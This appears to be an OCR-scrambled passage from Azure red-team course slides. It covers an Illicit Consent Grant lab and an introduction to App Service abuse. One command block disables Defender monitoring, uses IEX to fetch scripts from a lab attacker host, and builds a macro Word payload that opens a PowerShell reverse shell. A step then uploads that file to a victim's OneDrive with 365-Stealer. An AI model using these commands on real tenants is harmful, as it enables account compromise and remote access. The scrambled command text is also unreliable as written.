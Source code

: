 * Using the access token of application administrator, we can use 365-stealer to upload macro infested doc files to the user's OneDrive.
* The user simulation will open these macro infested word files and execute the macro.
*   A licensed version of Office 365 is available on 172.16.1.250 to create doc files

    $$
    vm$officeVM\administrator= New-"PSSession, $passwd)-ComputerName 172.16.1.250 -Credential $creds EnterSet-MpPreference-PSSession -Session-DisableRealtimeMonitoring$officeVM $true IEX (New-Object Net.Webclient).downloadstring("http://172.16.150.x:82/Out-Word.ps1") OutNet.Webclient-Word -Payload).downloadstring"powershell('httpiex (New://-172.16.150.Object x:82/Invoke- PowerShellTcp.ps1');Power studentx.doc -Reverse -IPAddress 172.16.150.x -Port 4444" -OutputFile Copy-Destination-Item -FromSessionC:\AzAD\Tools$officeVM\student-Pathx.doc C:\Users\Administrator\Documents\studentx.doc
    $$

## Initial Access - Illicit Consent Grant

* Start a listener on the student VM
* On the student VM, use 365-stealer webconsole or CLI to upload the doc to OneDrive of MarkDWalden@defcorphq.onmicrosoft.com python C:\xampp\htdocs\ 365 - Stealer\ 365 - Stealer.py -- refresh-user MarkDWalden@defcorphq.onmicrosoft.com -- upload C:\AzAD\Tools\studentx.doc

## Learning Objective - 9

* Compromise an application administrator and their workstation in defcorphq tenant using the Illicit Consent Grant attack.

Part of - Kill Chain - 1 Topics covered - Authenticated Enumeration and Initial Access

## Azure App Service

* "Azure App Service is an HTTP-based service for hosting web applications, REST APIs, and mobile back ends."
* Supports both Windows and Linux environments.
* .NET, .NET Core, Java, Ruby, Node.js, PHP, or Python are supported.
* Each app runs inside a sandbox but isolation depends upon App Service plans - Apps in Free and Shared tiers run on shared VMs - Apps in Standard and Premium tiers run on dedicated VMs

## Azure App Service

* Windows apps (not running in Windows containers) have local drives, UNC shares, outbound network connectivity (unless restricted), read access to Registry and event logs.
* In the above case, it is also possible to run a PowerShell script and command shell. But the privileges will be of a the low-privileges workers process that uses a random application pool identity.

## Initial Access - App Service Abuse

* While there are default security features available with App Service (sandboxing/isolation, encrypted communication etc.), vulnerabilities in the code deployed are abusable.
* The classic web app vulnerabilities like SQL Injection, Insecure file upload, Injection attacks etc. do not disappear magically :)
* We will discuss the following:
  * Insecure File upload
  * Server Side Template Injection
  * OS Command Injection
